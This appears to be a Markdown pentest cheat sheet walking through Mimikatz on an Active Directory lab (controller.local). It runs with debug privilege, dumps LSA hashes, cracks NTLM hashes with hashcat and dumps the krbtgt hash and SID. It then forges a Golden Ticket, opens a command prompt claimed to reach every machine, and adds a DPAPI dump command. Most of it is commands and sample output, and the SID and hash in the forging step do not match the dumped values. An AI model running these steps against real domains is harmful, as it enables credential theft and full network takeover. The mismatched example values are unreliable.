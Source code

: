# Mimikatz

## Tables of Contents

* [Mimikatz](mimikatz.md#mimikatz)
  * [Tables of Contents](mimikatz.md#tables-of-contents)
  * [Run](mimikatz.md#run)
  * [Dump hashes](mimikatz.md#dump-hashes)
  * [Crack with hashcat](mimikatz.md#crack-with-hashcat)
  * [Golden Ticket](mimikatz.md#golden-ticket)
  * [Create the Golden Ticket](mimikatz.md#create-the-golden-ticket)
  * [Use the Ticket](mimikatz.md#use-the-ticket)
  * [DPAPI](mimikatz.md#dpapi)
* Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network
* Transfer mimikatz.exe to the target

## Run

```
./mimikatz.exe
```

* Ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator.
* If you don't run mimikatz as an administrator, mimikatz will not run properly

```
privilege::debug 
```

## Dump hashes

```
lsadump::lsa /patch
```

## Crack with hashcat

```
hashcat -m 1000 <hash> rockyou.txt
```

## Golden Ticket

* Again using the mimikatz as the previous task; however, this time we'll be using it to create a golden ticket.
* We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.
* This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

```
lsadump::lsa /inject /name:krbtgt
```

* Output should look like this:

```
mimikatz # lsadump::lsa /inject /name:krbtgt 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 5508500012cc005cf7082a9a89ebdfdf 
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a
    18  cc18f1d9a1f4d28b58a063f69fa54f27 
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f
    27  e69385ee50f9d3e105f50c61c53e718e
    28  ca006400aefe845da46b137b5b50f371
    29  15a607251e3a2973a843e09c008c32e3 

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4 
```

## Create the Golden Ticket

* You will need the:
* Domain SID (S-1-5-21-849420856-2351964222-986696166)
* USER (krbtgt)
* NTLM (5508500012cc005cf7082a9a89ebdfd)
* Create a Golden Ticket

```
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

* To create a golden ticket based on the output above we would use:

```
Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-3893474861-143125734-211
2006029 /krbtgt:78558f004296a6f9438f4532164a7acd /id:500
```

* Output should look like this:

```
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-3893474861-143125734-2112006029
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 78558f004296a6f9438f4532164a7acd - rc4_hmac_nt
Lifetime  : 8/8/2021 4:37:58 PM ; 8/6/2031 4:37:58 PM ; 8/6/2031 4:37:58 PM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

## Use the Ticket

* Use the Golden Ticket to access other machines:

```
misc::cmd
```

* This will open a new command prompt with elevated privlages to all machines
* Access other Machines! - You will now have another command prompt with access to all other machines on the network

## DPAPI&#x20;

* Credit for below section:
* [https://hunter2.gitbook.io/darthsidious/privilege-escalation/mimikatz  ](https://hunter2.gitbook.io/darthsidious/privilege-escalation/mimikatz)

```
mimikatz # sekurlsa::dpapi
```

* See blog post&#x20;
